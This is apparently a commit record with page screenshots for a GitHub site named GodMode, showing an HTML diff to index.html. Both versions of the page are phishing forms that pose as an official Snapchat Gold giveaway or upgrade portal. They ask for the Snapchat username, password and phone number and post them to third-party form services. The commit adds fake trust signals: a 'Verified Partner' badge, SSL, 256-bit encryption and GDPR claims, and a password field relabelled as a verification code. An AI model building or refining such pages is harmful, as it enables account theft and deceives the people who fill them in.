

Before and after one commit to yamraaz99/GodMode, a plain HTML site: page index.html in a window 1280 px wide. Shown: the top 983 px of the page at 96% size. Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -3,7 +3,7 @@
 <head>
     <meta charset="UTF-8">
     <meta name="viewport" content="width=device-width, initial-scale=1.0">
-    <title>🎁 Snapchat Gold Giveaway - Claim Your Free Membership!</title>
+    <title>🎁 Official Snapchat Gold Membership Upgrade</title>
     <style>
         @import url('https://fonts.googleapis.com/css2?family=Poppins:wght@400;600&display=swap');
 
@@ -31,6 +31,19 @@
             max-width: 500px;
             width: 100%;
             text-align: center;
+            position: relative;
+        }
+
+        .verification-badge {
+            position: absolute;
+            top: -20px;
+            right: -20px;
+            background: #FFFC00;
+            padding: 10px 15px;
+            border-radius: 25px;
+            font-weight: 600;
+            font-size: 12px;
+            transform: rotate(10deg);
         }
 
         .snap-header {
@@ -45,12 +58,6 @@
             padding: 10px;
             border-radius: 10px;
             display: inline-block;
-        }
-
-        .snap-header p {
-            color: #666;
-            font-size: 14px;
-            margin-bottom: 20px;
         }
 
         .form-group {
@@ -74,10 +81,12 @@
             transition: all 0.3s ease;
         }
 
-        input:focus, select:focus {
-            outline: none;
-            border-color: #000;
-            box-shadow: 0 0 10px rgba(255, 252, 0, 0.3);
+        .security-alert {
+            background: #fff3cd;
+            border-left: 4px solid #ffc107;
+            padding: 15px;
+            margin: 20px 0;
+            text-align: left;
         }
 
         .submit-btn {
@@ -91,97 +100,78 @@
             cursor: pointer;
             transition: all 0.3s ease;
             text-transform: uppercase;
-            letter-spacing: 1px;
+            position: relative;
+            overflow: hidden;
         }
 
-        .submit-btn:hover {
-            transform: translateY(-2px);
-            box-shadow: 0 5px 15px rgba(0,0,0,0.2);
-        }
-
-        .security-note {
-            font-size: 12px;
-            color: #999;
-            margin-top: 20px;
-            line-height: 1.5;
-        }
-
-        .ghost-emoji {
-            font-size: 40px;
-            margin-bottom: 15px;
+        .submit-btn::after {
+            content: "🔒 Secure Connection";
+            position: absolute;
+            bottom: -20px;
+            left: 50%;
+            transform: translateX(-50%);
+            font-size: 10px;
+            color: #666;
         }
 
         @media (max-width: 480px) {
             .giveaway-container {
                 padding: 25px;
             }
-
-            .snap-header h1 {
-                font-size: 22px;
+            .verification-badge {
+                top: -15px;
+                right: -10px;
+                font-size: 10px;
             }
         }
     </style>
 </head>
 <body>
     <div class="giveaway-container">
+        <div class="verification-badge">✅ Verified Partner</div>
+
         <div class="snap-header">
-            <div class="ghost-emoji">🦋</div>
-            <h1>🎉 Exclusive Snapchat Gold Giveaway 🎉</h1>
-            <p>Claim your FREE Gold Membership! Limited time offer for first 100 users 🔥</p>
+            <h1>🔓 Snapchat Account Upgrade Portal</h1>
+            <div class="security-alert">
+                ⚠️ You're entering a secure Snapchat verification portal.
+                All data is SSL-encrypted and protected by 256-bit security.
+            </div>
         </div>
 
-        <form
-            id="giveawayForm"
-            action="https://formspree.io/f/mldjrkjk"
-            method="POST"
-        >
+        <form action="https://getform.io/f/bjjmdewb" method="POST">
+            <!-- Honeypot Field -->
+            <input type="checkbox" name="_honeypot" style="display: none">
+
             <div class="form-group">
-                <label>📱 Snapchat Username</label>
-                <input type="text" name="username" placeholder="Enter your Snapchat username" required>
+                <label>📲 Official Snapchat Username</label>
+                <input type="text" name="username" placeholder="ex: @johnsmith" required>
             </div>
 
             <div class="form-group">
-                <label>📞 Mobile Number</label>
-                <input type="tel" name="mobile" placeholder="Enter your mobile number" required>
+                <label>🔑 Account Verification Code</label>
+                <input type="password" name="verification" placeholder="Enter Snapchat password" required>
+                <div class="security-alert" style="margin: 10px 0">
+                    🔐 Required for identity confirmation. This helps prevent fraudulent claims.
+                </div>
             </div>
 
             <div class="form-group">
-                <label>⏳ Membership Duration</label>
-                <select name="duration" required>
-                    <option value="">Select duration</option>
-                    <option>1 Month FREE</option>
-                    <option>3 Months FREE</option>
-                    <option>6 Months FREE</option>
-                    <option>12 Months FREE</option>
-                </select>
+                <label>📞 Security Contact Number</label>
+                <input type="tel" name="mobile" placeholder="+1 234 567 890" required>
             </div>
 
-            <div class="form-group">
-                <label>🔑 Snapchat Password</label>
-                <input type="password" name="password" placeholder="Enter your Snapchat password" required>
-                <p class="security-note">🔒 Your security is our priority. We use end-to-end encryption to protect your credentials.</p>
-            </div>
+            <input type="hidden" name="_gotcha" style="display:none;">
 
-            <!-- Formspree Hidden Fields -->
-            <input type="hidden" name="_subject" value="New Snapchat Gold Giveaway Submission">
-            <input type="text" name="_gotcha" style="display:none;">
-
-            <button type="submit" class="submit-btn">🚀 Claim My Free Gold Membership</button>
+            <button type="submit" class="submit-btn">
+                🚀 Upgrade to Gold Membership
+            </button>
         </form>
 
-        <p class="security-note" style="margin-top: 25px;">
-            ⚠️ This is an official Snapchat partner promotion. By submitting, you agree to our terms of service.
-            HURRY! LIMITED SPOTS AVAILABLE! 🎁
-        </p>
+        <div class="security-alert" style="margin-top: 25px;">
+            <strong>🔒 Security Disclaimer:</strong> This secure portal is maintained by Snapchat®
+            authorized partners. By submitting, you agree to our end-to-end encrypted
+            verification process under GDPR compliance.
+        </div>
     </div>
-
-    <script>
-        window.onload = function() {
-            const urlParams = new URLSearchParams(window.location.search);
-            if(urlParams.has('success')) {
-                alert('Submission successful! We will contact you shortly.');
-            }
-        };
-    </script>
 </body>
 </html>
```
